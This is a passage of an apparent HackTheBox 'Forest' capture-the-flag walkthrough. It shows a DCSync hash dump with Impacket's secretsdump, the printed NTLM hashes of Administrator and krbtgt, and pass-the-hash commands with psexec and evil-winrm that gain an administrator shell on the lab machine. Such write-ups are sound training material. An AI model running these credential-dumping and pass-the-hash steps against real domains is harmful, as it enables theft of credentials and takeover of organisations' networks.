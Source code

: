 
After writting the Object ACL with the DCSync privileges _kashmir_ account to the group, I was able to pull the hashes using the secretsdump.py script from Impacker in the attack box:

```bash
python3 secretsdump.py kashmir:kashmir54@10.129.95.210
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...
```


Checking that our hash is correct with CME:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/forest/4_1_pwned.png" width="90%"/>
</p>


Now we can use the hash with psexec or evil-winrm to access the machine as administrator with a Pass-The-Hash attack:

```bash
python3 psexec.py -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.129.95.210

evil-winrm -i 10.129.95.210 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

And now grab the flag with an NT Authority account:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/forest/5_0_root.png" width="90%"/>
</p>

